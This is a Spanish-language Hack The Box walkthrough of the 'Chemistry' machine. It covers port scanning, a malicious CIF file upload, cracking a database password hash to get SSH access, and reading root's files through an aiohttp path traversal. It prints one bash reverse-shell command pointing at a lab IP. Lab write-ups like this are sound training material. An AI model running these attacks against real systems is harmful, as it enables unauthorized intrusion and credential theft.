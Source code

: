 ![alt text](../image/Chemistry.png)

|  MAQUINA  |  OS   | DIFICULTAD |  PLATAFORMA  |      IP       |
| :-------: | :---: | :--------: | :----------: | :-----------: |
| CHEMISTRY | LINUX |   FACIL    | HACK THE BOX | CHEMISTRY.HTB |
## *Reconocimiento*

Con la IP de la maquina encontrada hacemos un escaneo de puertos de nmap y ver que información puedo encontrar. Encuentro un puerto SSH y un HTTP en un puerto diferente al habitual.

![alt text](../image/chemi1.png)

Como ya conozco la dirección en donde se ubica la pagina web, busco investigar un poco más haciendo una enumeración de directorios.

![alt text](../image/chemi2.png)
![alt text](../image/chemi3.png)

Hay un directorio para registrarnos, ingreso mis credenciales y me envía hacia el panel de la cuenta

![alt text](../image/chemi4.png)

En el panel hay una opción para subir archivos de extensión CIF. Este trae un ejemplo de un archivo con la extensión requerida.

![alt text](../image/chemi5.png)
![alt text](../image/chemi6.png)
## *Análisis de vulnerabilidades*

No conocía sobre este tipo de archivo así que comencé a buscar información y sus posibles vulnerabilidades y pude encontrar un payload que podía añadir al archivo de ejemplo que tuve recientemente.

![alt text](../image/chemi7.png)
![alt text](../image/chemi8.png)

Añado el payload para que al tratar de ver el archivo por medio del panel este cree una reverse shell, mientras eso ocurre yo estaré en escucha.

![alt text](../image/chemi9.png)

```bash
/bin/bash -c 'sh -i >& /dev/tcp/10.10.14.148/4444 0>&1'
```

![alt text](../image/chemi10.png)
![alt text](../image/chemi11.png)
## *Explotación*

Ya con el inicio de sesión por medio de app puedo revisar las carpetas que acompañan al usuario y encuentro una base de datos en la carpeta instance, levanto un servidor con python y obtengo la base de datos para obtener los datos e investigar.

![alt text](../image/chemi12.png)
![alt text](../image/chemi13.png)
![alt text](../image/chemi14.png)

Indagando encontramos un perfil de nombre rosa, tendré en cuenta este nombre para posibles ataques.

![alt text](../image/chemi15.png)

Dentro de la base de datos encontrada se ven muchos usuarios y contraseñas hasheadas, entre ellas veo el nombre de usuario rosa

![alt text](../image/chemi16.png)

Al desencriptar el hash tenemos la contraseña de rosa y con ella entramos por el puerto ssh y obtenemos acceso.

![alt text](../image/chemi17.png)
![alt text](../image/chemi18.png)
## *Post-Explotación*

Con Netstat veo que había una pagina corriendo así que quise saber con que tecnologías había sido montada, el servidor aiohttp/3.9.1 tiene una vulnerabilidad de path traversal y comienzo a probar rutas para saber si en verdad la vulnerabilidad sigue existiendo.

![alt text](../image/chemi19.png)
![alt text](../image/chemi20.png)

Cambio la ruta hacia la carpeta root y su posible archivo root.txt

![alt text](../image/chemi21.png)

